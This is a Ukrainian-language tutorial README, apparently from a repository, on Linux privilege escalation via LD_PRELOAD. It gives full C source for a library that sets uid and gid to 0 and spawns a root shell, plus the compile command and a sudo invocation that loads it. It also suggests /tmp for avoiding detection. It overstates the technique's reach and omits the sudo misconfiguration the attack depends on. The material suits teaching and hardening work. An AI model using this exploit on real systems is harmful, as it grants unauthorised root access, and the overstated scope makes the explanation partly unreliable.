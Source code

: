 <h1>ld_preload-privilege-escalation</h1>
<h2>Опис</h2>
<p><code>LD_PRELOAD</code> — це змінна середовища, яка використовується для попереднього завантаження загальних бібліотек у програму або скрипт перед її виконанням. Це дозволяє замінити функції за замовчуванням програми, що дає змогу маніпулювати її поведінкою.</p><p>Цей репозиторій демонструє експлойт ескалації прав за допомогою змінної <code>LD_PRELOAD</code>. Створюючи спеціальну загальну бібліотеку, ми можемо впровадити її в програму та ескалювати привілеї, наприклад, для запуску довільних команд з правами root.</p>
<h2>Пояснення</h2>
<p>Ми створимо загальну бібліотеку, яку можна буде завантажити в програму за допомогою <code>LD_PRELOAD</code>, що дозволить нам ескалувати привілеї програми до прав root. Ключова ідея — використання змінної <code>LD_PRELOAD</code> для попереднього завантаження шкідливої бібліотеки перед виконанням цільової програми.</p>

<h3>Кроки реалізації</h3>
<ol>
<li><strong>Створення бібліотеки-експлойту:</strong> Спершу ми напишемо програму на C (файл <code>shell.c</code>), яку скомпілюємо в загальний об'єкт (файл <code>shell.so</code>). Ця бібліотека виконає ескалацію привілеїв, запустивши оболонку з правами root.</li>
</ol> 
'''
<pre><code>#include &lt;stdio.h&gt;
     #include &lt;sys/types.h&gt;
#include &lt;stdlib.h&gt;

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}</code></pre>

    
<p>У цьому коді:</p>
    <ul>
        <li><code>setgid(0)</code> і <code>setuid(0)</code> встановлюють ID групи та користувача на <code>0</code>, що відповідає користувачу root.</li>
        <li><code>system("/bin/sh")</code> запускає оболонку з правами root.</li>
    </ul>

<ol start="2">
        <li><strong>Компиляція бібліотеки:</strong> Після написання коду потрібно скомпілювати його в загальний об'єкт за допомогою наступної команди:</li>
    </ol>
    <pre><code>gcc -fPIC -shared -o shell.so shell.c -nostartfiles</code></pre>

<p>Це створить файл <code>shell.so</code>, який є загальним об'єктом, що може бути завантажений в інші програми за допомогою <code>LD_PRELOAD</code>.</p>

<ol start="3">
        <li><strong>Встановлення змінної LD_PRELOAD:</strong> Щоб скористатися вразливістю програми, потрібно встановити змінну середовища <code>LD_PRELOAD</code> на шлях до нашої шкідливої бібліотеки. Припустимо, що об'єкт зберігається в <code>/tmp</code> для зручності доступу.</li>
    </ol>
    <pre><code>sudo LD_PRELOAD=/tmp/shell.so ping</code></pre>

<p>Ця команда змушує програму <code>ping</code> завантажити нашу шкідливу бібліотеку перед її виконанням. В результаті, при запуску програми <code>ping</code>, вона отримає права root і відкриє оболонку.</p>

<h2>Важливі зауваження</h2>
    <ul>
        <li><strong>Місце зберігання об'єкта:</strong> Шкідлива бібліотека (<code>shell.so</code>) не обов'язково повинна знаходитися в <code>/tmp</code>, але це зручне місце для уникнення виявлення.</li>
        <li><strong>Цільова програма:</strong> У цьому прикладі ми використовуємо програму <code>ping</code> як ціль. Однак цей метод можна застосувати до будь-якої програми, яка динамічно завантажує бібліотеки.</li>
        <li><strong>Безпекові наслідки:</strong> Використання <code>LD_PRELOAD</code> таким чином може бути використано для ескалації прав, що є суттєвою загрозою для безпеки. Переконайтеся, що ви розумієте юридичні та етичні наслідки використання цього експлойту.</li>
    </ul>

h2>Приклад використання</h2>
    <pre><code>gcc -fPIC -shared -o shell.so shell.c -nostartfiles
sudo LD_PRELOAD=/tmp/shell.so ping</code></pre>

    
<p>Це дозволить ескалувати привілеї і запустити оболонку з правами root.</p>

<h2>Висновок</h2>
<p>Цей приклад демонструє, як можна використовувати <code>LD_PRELOAD</code> для ескалації прав. Хоча цей метод є потужним, важливо розуміти його потенціал для шкідливого використання. Системи повинні бути налаштовані для мінімізації таких ризиків, забезпечуючи належну безпеку та захист від експлойтів типу <code>LD_PRELOAD</code>.</p>
